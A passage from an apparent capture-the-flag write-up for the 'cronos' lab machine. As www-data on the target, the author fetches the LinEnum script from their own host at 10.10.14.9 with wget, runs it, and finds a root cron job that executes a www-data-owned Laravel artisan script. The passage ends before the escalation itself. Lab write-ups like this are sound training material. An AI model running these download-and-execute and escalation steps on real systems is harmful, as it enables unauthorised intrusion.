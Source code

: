# Privilege Escalation

To check for any vulnerabilities, we can use the [LinEnum](https://github.com/rebootuser/LinEnum) script. 

First, we download the script on our local machine, then we host it on our own server using `python3 -m http.server 80`.

```bash
www-data@cronos:/var/www/admin$ wget http://10.10.14.9/LinEnum.sh
wget http://10.10.14.9/LinEnum.sh
--2022-04-22 10:08:40--  http://10.10.14.9/LinEnum.sh
Connecting to 10.10.14.9:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

     0K .......... .......... .......... .......... .....     100% 2.60M=0.02s

2022-04-22 10:08:40 (2.60 MB/s) - 'LinEnum.sh' saved [46631/46631]

www-data@cronos:/var/www/admin$ chmod +x LinEnum.sh
chmod +x LinEnum.sh
www-data@cronos:/var/www/admin$ ./LinEnum.sh
...
[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#
...
```

There is an interesting `artisan` script that is running. Let’s check out who owns the script!

```bash
www-data@cronos:/var/www/admin$ ls -la /var/www/laravel/ 
ls -la /var/www/laravel/
total 2012
drwxr-xr-x 13 www-data www-data    4096 Apr  9  2017 .
drwxr-xr-x  5 root     root        4096 Apr  9  2017 ..
-rw-r--r--  1 www-data www-data     572 Apr  9  2017 .env
drwxr-xr-x  8 www-data www-data    4096 Apr  9  2017 .git
-rw-r--r--  1 www-data www-data     111 Apr  9  2017 .gitattributes
-rw-r--r--  1 www-data www-data     117 Apr  9  2017 .gitignore
-rw-r--r--  1 www-data www-data     727 Apr  9  2017 CHANGELOG.md
drwxr-xr-x  6 www-data www-data    4096 Apr  9  2017 app
-rwxr-xr-x  1 www-data www-data    1646 Apr  9  2017 artisan
drwxr-xr-x  3 www-data www-data    4096 Apr  9  2017 bootstrap
-rw-r--r--  1 www-data www-data    1300 Apr  9  2017 composer.json
-rw-r--r--  1 www-data www-data  121424 Apr  9  2017 composer.lock
```